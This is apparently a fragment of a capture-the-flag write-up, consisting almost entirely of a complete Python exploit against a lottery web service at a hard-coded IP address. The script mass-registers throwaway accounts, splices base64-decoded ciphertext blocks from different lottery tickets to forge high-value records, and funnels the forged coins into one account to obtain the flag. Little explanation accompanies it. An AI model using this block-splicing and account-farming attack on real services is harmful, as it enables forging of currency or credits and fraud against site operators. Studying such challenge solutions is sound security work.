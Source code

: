 妙啊

{% spoiler 完整exploit %}

```python
from requests import session
from base64 import b64encode, b64decode

import string
import random

ses = session()


def get_random_id():
    alphabet = list(string.ascii_lowercase + string.digits)
    return ''.join([random.choice(alphabet) for _ in range(32)])


def get_user():
    usernm, passwd = get_random_id(), get_random_id()
    ses.post('http://52.149.144.45:8080/user/register', data={
        'username': usernm, 'password': passwd,
    }).json()['user']
    user = ses.post('http://52.149.144.45:8080/user/login', data={
        'username': usernm, 'password': passwd,
    }).json()['user']
    return user


flag_user = get_user()
print(flag_user)
price = ses.post('http://52.149.144.45:8080/lottery/buy', data={
    'api_token': flag_user['api_token']
}).json()['enc']

amount = 0
while amount < 9999:
    fake_user = get_user()
    for _ in range(3):
        sheep = ses.post('http://52.149.144.45:8080/lottery/buy', data={
            'api_token': fake_user['api_token']
        }).json()['enc']
        treasure = b64decode(sheep)[:64] + \
            b64decode(price)[32:96] + \
            b64decode(sheep)[96:]
        treasure = b64encode(treasure).decode()
        coin = ses.post('http://52.149.144.45:8080/lottery/info', data={
            'enc': treasure
        }).json()['info']['coin']
        amount += coin
        ses.post('http://52.149.144.45:8080/lottery/charge', data={
            'user': flag_user['uuid'],
            'coin': coin,
            'enc': treasure
        })
        print(amount)

ses.post('http://52.149.144.45:8080/flag', data={
    'api_token': flag_user['api_token']
})
```
